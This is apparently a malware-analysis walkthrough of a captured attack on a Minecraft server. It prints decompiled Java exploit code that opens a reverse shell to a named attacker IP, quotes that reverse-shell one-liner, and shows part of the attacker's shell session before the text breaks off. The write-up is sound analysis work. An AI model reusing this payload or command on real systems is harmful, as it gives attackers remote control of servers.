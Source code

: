 ### Malware analysis
1. exploit class can be extracted with `File -> Export Objects -> HTTP... -> ExecTemplateJDK8.class`
2. decompile [ExecTemplateJDK8.class](./ExecTemplateJDK8.class) with [Jadx](https://github.com/skylot/jadx):
    ```java
    package defpackage;

    /* renamed from: ExecTemplateJDK8  reason: default package */
    public class ExecTemplateJDK8 {
        static {
            try {
                Runtime.getRuntime().exec(System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/C", "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"} : new String[]{"/bin/bash", "-c", "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
            System.out.println();
        }
    }
    ```
    
    * already extracted source can be found here: [ExecTemplateJDK8.java](./ExecTemplateJDK8.java)

3. the one-liner reverse shell can be extracted:
    `sh -i >& /dev/udp/18.212.74.161/6666 0>&1`
    -> reverse shell listener running on `18.212.74.161` (attacker machine).
4. analyzing the udp stream to the remote port 6666 in Wireshark:
   `udp.stream eq 12`
    ```
    $ ls
    banned-ips.json
    banned-players.json
    crash-reports
    eula.txt
    libraries
    logs
    ops.json
    server.properties
    server_1.18.jar
    usercache.json
    versions
    whitelist.json
    world
    $ whoami
    ubuntu
    $ id
    uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
    $ pwd
    /home/ubuntu/minecraft_1.8
    $ wget http://www.youtube.com/watch?v=dQw4w9WgXcQ
    --2022-03-11 14:10:53--  http://www.youtube.com/watch?v=dQw4w9WgXcQ
    Resolving www.youtube.com (www.youtube.com)... 142.251.33.206, 142.250.188.46, 142.250.81.206, ...
    Connecting to www.youtube.com (www.youtube.com)|142.251.33.206|:80... connected.
    HTTP request sent, awaiting response... 301 Moved Permanently
    Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ [following]
    --2022-03-11 14:10:53--  https://www.youtube.com/watch?v=dQw4w9WgXcQ
    Connecting to www.youtube.com (www.youtube.com)|142.251.33.206|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: unspecified [text/html]
    Saving to: ...watch?v=dQw4w9WgXcQ...
